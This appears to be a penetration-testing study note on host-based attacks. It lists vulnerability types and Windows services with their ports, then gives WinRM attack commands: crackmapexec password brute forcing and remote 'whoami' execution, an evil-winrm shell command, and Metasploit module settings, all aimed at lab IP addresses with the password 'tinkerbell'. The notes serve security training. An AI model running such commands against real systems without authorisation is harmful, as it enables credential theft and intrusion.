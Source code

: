 # Table of Contents
1. Overview
2. Tools
	1. Windows
	2. Linux

---
# Overview
This phase is about exploiting what has been found in the [enumeration](../Assessment_Methodologies/Enumeration.md) phase.

Taking advantage of **inherent vulnerabilities** or **misconfigurations** in order to collect credentials and to expand your access and foothold into the network. All about gaining more power (privilege escalation) and expanding your access (lateral movement).
  
Host based attacks are against internal machines and not necessarily servers that are running services that are public accessible.

Type of Vulnerabilities
- Information Disclosure
- Buffer Overflows
- Remote Code Execution
- Privilege Escalation
- Denial of Service

---
# Tools
## Windows Attacks
### Services

| Service  | #Ports   | Description                            |
| -------- | -------- | -------------------------------------- |
| IIS      | 80/443   | webserver                              |
| WebDav   | 80/443   | Web Distributed Authoring & Versioning |
| SMB/CIFS | 445      | Network File sharing                   |
| RDP      | 3389     | Remote Desktop Protocol                |
| WinRM    | 5986/443 | Windows Remote Management Protocol     |

### Services
- [IIS WebDav](../../Services/IIS-WebDav.md)
- [SMB with PsExec](../../Services/SMB.md#PsExec)
- [RDP](../../Services/RDP.md)
- WinRM

#### Windows Remote Management (WinRM)
- 5985/5986 ports

##### crackmapexec
- brute force
- `crackmapexec winrm 10.2.18.45 -u administrator -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`
- `crackmapexec winrm 10.2.18.45 -u administrator -p tinkerbell -x "whoami"`

##### evil-winrm.rb
- ruby script which gets shell access
- `evil-winrm.rb -u administrator -p 'tinkerbell' -i 10.2.18.5`

##### msfconsonle
- use exploit/windows/winrm/winrm_script_exec
	- set rhosts addr
	- set force_vbs true
	- set username administrator
	- set password tinkerbell


---
## Linux Attacks
